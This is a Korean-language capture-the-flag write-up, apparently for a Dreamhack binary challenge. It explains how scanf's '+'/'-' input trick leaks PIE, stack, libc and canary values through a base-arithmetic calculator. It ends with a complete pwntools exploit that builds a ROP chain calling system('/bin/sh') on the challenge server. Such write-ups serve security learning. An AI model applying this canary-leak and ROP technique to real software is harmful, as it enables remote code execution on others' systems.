 `scanf`에 `+`나 `-`를 입력하면 아무것도 입력하지 않을 수 있다는 트릭이 있다. 값을 가져오는 곳에 코드 영역 주소가 있기 때문에 `+`를 입력하고 스택의 값을 더하면 `코드 영역 값 + alpha`의 값을 알 수 있고, 그냥 -1을 입력하면 `alpha`의 값을 알 수 있기 때문에 이 둘을 빼주고 `offset`을 빼주면 `pie_base`를 구할 수 있다.

```
0x7fffffffc850: 0x0000000000000000      0x0000000000000000
0x7fffffffc860: 0x0000000000000000      0x0000000000000000
0x7fffffffc870: 0x0000000000000000      0x0000000000000000
0x7fffffffc880: 0x0000000000000000      0x0000000000000000
0x7fffffffc890: 0x00007fffffffc9d8      0xd73910ae66126e00
0x7fffffffc8a0: 0x00007fffffffc8b0      0x000055555555558e
0x7fffffffc8b0: 0x00007fffffffc950      0x00007ffff7dc91ca
0x7fffffffc8c0: 0x00007fffffffc900      0x00007fffffffc9d8
```

`0x7fffffffc850`에 `unsigned long long int k[16];`이 선언되어 있다고 가정하자. `k[0] ~ k[7]`은 0으로 초기화되고, `k[8], k[10], k[12], k[14], k[15]`은 스택 관련 주소, `k[9]`는 카나리, `k[11]`은 코드 영역 주소, `k[13]`은 `libc` 관련 주소이다.
`base`를 `(1 << 56)`으로 설정하고 결과 값의 하위 6바이트만 보면 `k[15]`가 도출될 것이므로 스택 관련 주소의 모든 값을 알 수 있다. 이제 우리는 `k[9], k[13]`을 모르고 나머지 값은 다 안다.
다음으로 `k[13]`을 알아낼 것이다. 그렇게 생각한 이유는 `libc` 관련 주소는 상위 2바이트가 `\x00\x00`이기 때문이다. `base`를 `(1 << 63) + (1 << 8)`로 설정하고 최상위 바이트를 무시한다고 가정하면 `val`은 `((k[0] << 120) + ... + (k[8] << 56) + (k[9] << 48) + ... + (k[14] << 8) + k[15]) & ((1 << 64) - 1)`가 될 것이며, 이는 2바이트씩 밀려서 더해지는 형태가 될 것이다.
![[image/KakaoTalk_20250228_173012514.jpg]]

위 그림처럼 생각하면 `k[13]`의 하위 5바이트를 알 수 있다. `libc`는 `\x7e` 또는 `\x7f`로 시작하므로 합리적인 고정(`\x7f`)를 통해 `k[13]`을 알아낼 수 있다.
`base`를 `(1 << 64) - 1`로 하면 `-1`을 곱하는 것과 같은 효과를 준다. `k[9]`만 모르고 나머지 값은 다 알기 때문에 `k[9]`도 알 수 있다. 이로써 익스에 필요한 모든 값을 알아냈다. `ROP`로 해결한다.

# Exploit

```python
from pwn import *
from tqdm import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('host1.dreamhack.games', 20130)
#p = process('./prob2')
l = ELF('./libc.so.6')

breaknum = (1 << 64) + 1

def calc(base : int, inputs : list):
    p.sendlineafter(b'Base: ', str(base).encode())
    for i in inputs:
        if type(i) == int : 
            if i > (1 << 64) : break
            else : i = str(i).encode()
        p.sendline(i)
    p.recvuntil(b'Value: ')
    return p.recvline()[:-1]

sum1 = int(calc((1 << 56) + 1, [b'+', -1, breaknum]))
sum2 = int(calc((1 << 56) + 1, [-1, breaknum]))
sum1 += 1 << 64
pie_base = sum1 - sum2 - 0x4020
pie_base &= 0xffffffffffff
print(hex(sum1))
print(hex(sum2))
print(hex(pie_base))
print()

st1 = int(calc((1 << 56), [-1, breaknum]))
st1 = (st1 & ((1 << 48) - 1))
st2 = st1 - (0x7fffffffc778 - 0x7fffffffc6a0)
st3 = st1 - (0x7fffffffc778 - 0x7fffffffc6f0)
st4 = st1 - (0x7fffffffc778 - 0x7fffffffc650)
st5 = st1
print(hex(st1))
print(hex(st2))
print(hex(st3))
print(hex(st4))
print(hex(st5))
print()

b = int(calc((1 << 63) + (1 << 8), [-1, breaknum]))
b -= st1
b >>= 8
b -= st2
b >>= 8
l.address = b & 0xff
b >>= 8
b -= st3 & 0xffffffff
l.address += (b & 0xff) << 8
b >>= 8
b -= (pie_base + 0x158e) & 0xffffff
l.address += (b & 0xff) << 16
b >>= 8
b -= st4 & 0xffff
l.address += (b & 0xffff) << 24
l.address += 0x7f0000000000
l.address = l.address - (0x7ffff7dd51ca - 0x7ffff7dab000)
print(hex(l.address))

c = int(calc((1 << 64) - 1, [-1, breaknum]))
nocanaryc = st1 + pie_base + 0x158e + l.address + (0x7ffff7dd51ca - 0x7ffff7dab000)
nocanaryc += (1 << 64) * 4
nocanaryc -= st2 + st3 + st4 + st5
nocanaryc &= (1 << 64) - 1
c += 1 << 64
canary = c - nocanaryc
canary &= (1 << 64) - 1
print(hex(canary))

system = l.sym['system']
binsh = list(l.search(b'/bin/sh'))[0]
pop_rdi = l.address + 0x000000000010f75b
ret = l.address + 0x000000000002e81b

#gdb.attach(p, "b* calc+217\nc")
int(calc((1 << 64) - 1, [0, 0, 0, 0, 0, 0, 0, 0, 0, canary, 0, ret, pop_rdi, binsh, system, 0]))
p.interactive()
```